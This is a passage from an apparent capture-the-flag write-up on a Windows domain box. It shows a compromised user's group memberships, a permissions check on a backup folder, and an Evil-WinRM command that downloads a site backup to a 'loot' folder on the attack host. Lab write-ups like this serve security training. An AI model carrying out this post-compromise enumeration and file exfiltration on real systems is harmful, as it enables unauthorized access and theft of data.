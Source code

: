 ```
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
PUPPY\DEVELOPERS                            Group            S-1-5-21-1487982659-1829050783-2281216199-1113 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
```

But he did have read access to the `C:\Backups` folder, which contained a site backup.  I downloaded the backup to `loot/backup.zip` on the attack host.

```
*Evil-WinRM* PS C:\Users\adam.silver\Documents> cd \Backups
*Evil-WinRM* PS C:\Backups> icacls *
site-backup-2024-12-30.zip NT AUTHORITY\SYSTEM:(I)(F)
                           BUILTIN\Administrators:(I)(F)
                           BUILTIN\Users:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
*Evil-WinRM* PS C:\Backups> ls


    Directory: C:\Backups


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/8/2025   8:22 AM        4639546 site-backup-2024-12-30.zip


*Evil-WinRM* PS C:\Backups> download site-backup-2024-12-30.zip loot/backup.zip

Info: Downloading C:\Backups\site-backup-2024-12-30.zip to loot/backup.zip

Info: Download successful!
```

### 🧪 Exploitation
